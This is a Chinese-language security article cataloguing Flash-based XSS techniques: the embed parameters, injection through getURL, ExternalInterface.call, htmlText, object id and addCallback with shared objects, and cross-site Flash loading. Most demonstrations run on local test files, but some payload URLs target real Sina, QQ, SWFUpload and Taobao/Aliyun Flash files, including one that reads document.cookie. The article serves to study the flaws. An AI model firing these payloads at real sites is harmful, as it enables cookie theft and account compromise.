







原文 by MayIKissYou  

## 0x01 HTML中嵌入FLASH
在HTML中嵌入FLASH的时候在IE和非IE浏览器下嵌入的方式有所不同，可以使用embed 标签和object 标签，使用如下的代码进行嵌入：  
IE下嵌入  
``` html
<object codeBase="http://fpdownload.macromedia.com/get/Flashplayer/current/swFlash.cab#version=8,0,0,0" 
classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000">
<param name="movie" value = "http://xxxx.sinaapp.com/trace.swf" />
<param name="allowScriptAccess" value="always" />
<param name="allowNetworking" value="all" />
</object>
```
非IE下嵌入  
``` html
<object type="application/x-shockwave-Flash" data="./trace.swf">
<param name="movie" value = "./trace.swf" />
<param name="allowScriptAccess" value="always" />
<param name="allowNetworking" value="all" />
</object>
```
可以直接浏览器查看swf 源码 view-source&#58;http://183.60.83.233/ZeroClipboard.swf ，可以看到是CWS开头的一段乱码，即编译好的 action script 2/3 代码。  
在插入Flash的过程中有两个重要的参数，allowScriptAccess 和 allowNetworking 两个参数：  
allowScriptAccess：控制html页面与Flash页面的通讯：  
always：html和Flash页面的通讯不做任何的限制；  
samedomain：html和Flash同域的时候可以做通讯【这个值是默认值】；  
never：html和Flash禁止通讯。  

allowNetworking：控制Flash与外部的网络通讯：  
all：Flash所有的网络API通讯接口都可用；  
internal：navigateToURL，fscommand，ExternalInterface.call不可用；  
none：所有的网络API不可用。  

以chrome浏览器为例来验证以上参数，首先在本地搭建环境，并且新建一个Flash文件，Flash文件包括的内容主要是使用  ExternalInterface.call 执行一个js语句，弹出当前域的域名。  
1）：插入本地的Flash文件。  
```  html
<object type="application/x-shockwave-Flash" data="./trace.swf">
<param name="movie" value = "./trace.swf" />
<param name="allowScriptAccess" value="always" />
<param name="allowNetworking" value="all" />
</object>
```
运行结果：  
  

2）：插入本地的Flash，将allowScriptAccess参数改为samedomain。  
``` html
<object type="application/x-shockwave-Flash" data="./trace.swf">
<param name="movie" value = "./trace.swf" />
<param name="allowScriptAccess" value="samedomain" />
<param name="allowNetworking" value="all" />
```
运行结果：  
  
Html界面与Flash属于同域，因此能够弹出。  

3）：插入本地Flash，将allowScriptAccess改为never。  
``` html
<object type="application/x-shockwave-Flash" data="./trace.swf">
<param name="movie" value = "./trace.swf" />
<param name="allowScriptAccess" value="never" />
<param name="allowNetworking" value="all" />
</object>
```
运行结果没有弹出。  
4）：插入远程Flash，将allowScriptAccess改为always。  
``` html
<object type="application/x-shockwave-Flash" data="http://xxxxx.sinaapp.com/trace.swf">
<param name="movie" value = "http://xxxx.sinaapp.com/trace.swf" />
<param name="allowScriptAccess" value="always" />
<param name="allowNetworking" value="all" />
</object>
```
运行结果：  

注意这里弹出的域为当前html的域名，非Flash的域。      
但如果用 iframe 来嵌入 flash 的话，运行你会发现，弹出的是新浪域的cookie。  
``` html
<iframe/src="http://data.house.sina.com.cn/images/price_trend/open-flash-chart.swf?get-data=(function(){alert
(document.cookie)})()"></iframe>
```

5）：插入远程Flash，将allowScriptAccess改为samedomain  
``` html
<object type="application/x-shockwave-Flash" data="http://xxxxx.sinaapp.com/trace.swf">
<param name="movie" value = "http://xxxx.sinaapp.com/trace.swf" />
<param name="allowScriptAccess" value="samedomain" />
<param name="allowNetworking" value="all" />
</object>
```
运行结果没有弹出，因为Flash的域不和html在同一域内。  
6）：插入远程Flash，将allowScriptAccess改为never  
``` html
<object type="application/x-shockwave-Flash" data="http://xxxxx.sinaapp.com/trace.swf">
<param name="movie" value = "http://xxxxx.sinaapp.com/trace.swf" />
<param name="allowScriptAccess" value="never" />
<param name="allowNetworking" value="all" />
</object>
```
运行结果没有弹出，由于禁止了与html界面通讯。  
7）：将allowScriptAccess置为always，将allowNetworking置为internal  
``` html
<object type="application/x-shockwave-Flash" data="http://xxxxx.sinaapp.com/trace.swf">
<param name="movie" value = "http://xxxxx.sinaapp.com/trace.swf" />
<param name="allowScriptAccess" value="always" />
<param name="allowNetworking" value="internal" />
```
运行结果没有弹出，allowNetworking的参数置为internal，禁止了接口ExternalInterface.all。  

## 0x02 常见Flash xss分类总结Flash缺陷参数-getURL  
Flash提供相关的函数，可以执行js代码，getURL【AS2中支持】，navigateToURL【AS3中支持】，ExternalInterface.call。  
本着学习的原则本地搭建实践了下： 本地新建了个Flash，Flash调用外部资源xml文件。 Flash代码：  
``` actionScript
var root_xml:XML = new XML();
root_xml.ignoreWhite = true;
root_xml.onLoad = function(success){
    if(success){
        getURL(root_xml.childNodes[0].childNodes[0].childNodes[0].nodeValue)
    }else{
        getURL("javascript:alert('fail')")
    }
}
root_xml.load(_root.url);
```
xml文件：  
``` xml
<?xml version="1.0" encoding="utf-8" ?>
<data>
    <link>javascript:alert('xss')</link>
</data>
```
运行结果：  
  
PS.此类问题一般可以使用google搜索xml文件被swf 调用的情况，传入的内容如果没做过滤，很可能出现此类问题。  
如果我们的 a.xml 是放在 A 站点，则需要在 A 站点根目录下的 crossdomain.xml 配置一下 allow-access-from 选项。  

### Flash缺陷参数-ExternalInterface.call(参数一)  
ExternalInterface.call 同样是一个Flash提供的可以执行js的接口函数， ExternalInterface.call函数有两个参数，形如  ExternalInterface.call("函数名","参数1")。  
Flash最后执行的JS代码如下：  
`try { __Flash__toXML(函数名("参数1")) ; } catch (e) { "<undefined/>"; }`  
此段先考虑参数1，即函数名。  
本着学习的原则，本地搭建实践了下： Flash文件：  
``` actionScript
var a:String = root.loaderInfo.parameters.func
if(ExternalInterface.available){
    ExternalInterface.call(a)
} else {
    trace(100)
}
stop()
```
从外部获取参数func，使用ExternalInterface.call接收第一个参数，执行。  
对比：  
`try { __Flash__toXML(函数名("参数1")) ; } catch (e) { "<undefined/>"; }`  
创建url：  
`http://192.168.4.70/ExternalInterface_first.swf?func=alert(1))}catch(e){alert(100)}//`  

这样实际执行的js代码为：  
``` 
try { __Flash__toXML(alert(1))}catch(e){alert(100)}// ("参数1")) ; } catch (e) { "<undefined/>"; }`   
http://192.168.4.70/ExternalInterface_first.swf?func=a1lert(1))}catch(e){alert(100)}//`  
try { __Flash__toXML(a1lert(1))}catch(e){alert(100)}// ("参数1")) ; } catch (e) { "<undefined/>"; }`  
```
预期结果应该是第一个url执行之后弹出数字1，第二个url执行之后弹出数字100。  
访问 `http://192.168.4.70/ExternalInterface_first.swf?func=alert(1))}catch(e){alert(100)}//`  
  

访问 `http://192.168.4.70/ExternalInterface_first.swf?func=a1lert(1))}catch(e){alert(100)}//`  
  

和预期结果一样。  

### Flash缺陷参数-ExternalInterface.call(参数二)  
有时候当反编译swf 之后，会发现可控的参数的输出位置在ExternalInterface.call 函数的第二个参数，方法和思路与第一个参数的时候类似。  
Flash文件：  
``` actionScript
var a:String = root.loaderInfo.parameters.par
if(ExternalInterface.available){
    ExternalInterface.call("alert",a)
} else {
    trace(100)
}
stop()
```
Flash文件中的a是从外部获取的参数，此处外部获取的参数par 赋值给了a，作为输出点输出到了ExternalInterface的第二个参数的位置，此处相对于第一个参数的不同之处是，此处的输出点在引号中，因此此处我们需要把引号闭合掉。闭合引号使用的方法是`\"` 这样会被转义为 `\\"`，这样就可以闭合引号。  
根据ExternalInterface.call 的调用原型：  
`try { __Flash__toXML(函数名("参数1")) ; } catch (e) { "<undefined/>"; }`  
我们将参数输入如下的url：  
`http://192.168.4.70/ExternalInterface_second.swf?par=1111\%22),al)}catch(e){alert(1000)}//`  

分析应该执行如下：  
``` actionScript
try{
  __Flash__toXML(alert("1111\\"),al
}
catch(e){
  alert(1000)
}
```
如此下来应该就会弹出两个框，一个为`1111\`，另外一个为1000。 运行结果，弹出`1111\`： 
  
点击确定，弹出1000：  
  
PS. 此处ExternalInterface.call 调用的函数名，编写Flash的时候设置了alert，因此此处会弹两次，一般情况下函数名是不能够被控制的，这样我们使得前面的函数执行异常，执行catch中的js 即可，如 `http://static.video.qq.com/QQPlayer.swf?v=\%22));}catch%20(e){alert(1);}//`，如果参数值是从xml 文件节点读取，可以将节点写成 `<menu name="日 志" href="构造点\&quot;))}catch(e){alert(1)}//构造点" />`。  
类似的闭合情形：   
`try { __flash_toXML(SWFUpload.instances[""])}catch(e){alert(1);}//"]).flashReady("参数1")) ; } catch(e) { "<undefined>" }`  
利用：`swfupload.swf?movieName="])}catch(e){alert(1);}//`  


### Flash缺陷参数-htmlText  
Flash支持在Flash里内嵌html，支持的标签img标签，a标签等。 img标签可以通过src参数引入一个Flash文件，类似与XSF一样。  
 本着学习的原则，本地创建了Flash文件，  
``` actionScript
import fl.controls.TextArea;
var a:String = root.loaderInfo.parameters.url
var t:TextArea = new TextArea()
t.width = 500
t.height = 300
t.htmlText += a
addChild(t)
```
从获取URL中的参数url，赋值给a，变量a直接输出到了Textarea t 中。 访问如下url：  
`http://192.168.4.70/htmltext.swf?url=%3Cimg%20src=%27./trace.swf%27%3E`

访问结果如下：  
  
PS.当反编译Flash文件，发现htmltext 输出点的时候，可以查看相关是否存在相关的可控的输入，可能存在xss。  

### Flash缺陷参数-object的id可控   
html与swf 通讯的时候，使用的是ExternalInterface.addCallback 函数，调用如下：  
``` actionScript
function a(){
  trace(“hi”);
}
```
`ExternalInterface.addCallback("myfunc",a);`
执行了函数之后，在html上可以通过使用函数名myfunc 来调用Flash中的函数a。  
addCallback 的底层实现源代码：  
``` actionScript
if ((((activeX == true)) && (!((objectID == null))))){
 
    _evalJS((((("__Flash__addCallback(document.getElementById(\"" + objectID) + "\"), \"") + functionName) + "\");"));
 
};
```
objectID 为Flash的id，functionName为函数名称即 myfunc，因此当我们插入的Flash的id可控的时候，可能会出现xss问题。  
  
本着学习的原则，本地创建了Flash文件，  
``` actionScript
function a(){
    trace("hi")
}
ExternalInterface.addCallback("myfunc",a)
```
x.html 页面：  
``` html
<object id="xsstest&quot;),(function(){if(!window.x){window.x=1;alert(1)}})(),
(&quot;"codeBase="http://fpdownload.macromedia.com/get/Flashplayer/current/swFlash.cab#version=8,0,0,0" 
classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000">
<param name="movie" value = "./addCallback.swf" />
<param name="allowScriptAccess" value="always" />
<param name="allowNetworking" value="all" />
</object>
```
访问该界面（IE8下测试）：  


注意：在解析 object 标签时会把 &#38;quot; 转回 "，但 `xsstest"),(function(){if(!window.x){window.x=1;alert(1)}})(),("`  这一段字符串被当作 text，不会闭合引号。 id 值传递给 document.getElementById 函数时已经是 `"`，故可以闭合这里的引号。  

### Flash缺陷参数-addcallback与lso结合  
这个问题出现的点在addCallback 声明的函数，在被html 界面js 执行之后的返回值攻击者可控，导致了xss问题。  
ie 下 js 会这样处理 flash callback func 执行后的返回值：  
```
eval(instance.CallFunction("<invoke name=\""+name+"\" returntype=\"javascript\">" + __flash__argumentsToXML
(arguments,0) + "</invoke>"));
```
ff and chrome 是这样的：  
`eval(var __flash_temp = "returned value"; __flash_temp;)`

使用lso中首先会setlso，写入脏数据，然后getlso获取脏数据。  
假如 login.taobao.com 上会加载一个 JSocket.swf，代码如下：  
``` actionScript
function setlso(_arg1:String):Boolean{
    var _local2:SharedObject = SharedObject.getLocal("kj");
    _local2.data.key = _arg1;
    _local2.flush();
    return (true);
}
 
function getlso():String{
    var _local1:SharedObject = SharedObject.getLocal("kj");
    if(_local1.data.key == undefined){
        return ("");
    }
    return (_local1.data.key);
}
ExternalInterface.addCallback("getlso",getlso)
ExternalInterface.addCallback("setlso",setlso)
```
x.html:  
``` html
<html>
<body>
<object id="JSocket" tabindex="-1" classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" width="1" height="1" 
codebase="http://fpdownload.macromedia.com/pub/shockwave/cabs/flash/swflash.cab">
  <param name="movie" value="http://acjstb.aliyun.com/actionlog/flash/JSocket.swf">
  <param name="allowScriptAccess" value="always">
  <embed name="JSocket" src="http://acjstb.aliyun.com/actionlog/flash/JSocket.swf" width="1" height="1" 
     allowscriptaccess="always" type="application/x-shockwave-flash" pluginspage="http://www.adobe.com/go/
     getflashplayer">   <!-- if not IE -->
</object>
<script>
function set(){document['JSocket'].setlso('aa\\";alert(document.domain);//aa');}
setTimeout("set()",5000);
</script>
</body>
</html>
```
当用户访问放在 A 站点 的 x.html 时，x.html 也加载 JSocket.swf，并 setlso 一个共享变量。当用户再去访问 login.taobao.com 时，使用 getlso 如 document['JSocket'].getlso() 获取共享变量，如上所示，js 会对callback 函数执行的返回值做处理，如 eval`(var __flash_temp = "aa\\";alert(document.domain);//aa ; __flash_temp;)`  这样就造成了攻击。  

### 自动化扫描  
对于　flash 造成的 xss 问题，目前除了反编译代码看危险函数外，比较主流的是根据 md5 匹配文件内容进行判断，因为出问题的基本是同个版本的 zeroCliboard.swf swfUpload.swf 等文件  

### 跨站Flash  
跨站Flash 即XSF，通过AS加载第三方的Flash文件，如果这个第三方Flash可以被控制，就可以实现XSF。 在AS2中使用loadMove 函数等加载第三方Flash。可以用文件名绕过，比如运行上传图片的地方，可以将 flash 代码文件命名为 gif 等后缀。  
`_root.loadMovie(swf);`  
在AS3中使用Loader类进行外部数据处理：  
```
var param:Object = root.loaderInfo.parameters;
var swf:String = param["swf"];
var myLoader:Loader = new Loader();
var url:URLRequest = new URLRequest(swf);
myLoader.load(url);
addChild(myLoader);
allowScriptAccess 必须是 always 。
```
当第三方 evil.swf 被加载进目标 Flash 的上下文时，就受到了 目标 Flash 的沙盒限制，evil.swf 的能力如 allowScriptAccess、allowNetworking 继承自 目标 Flash 的设置。  

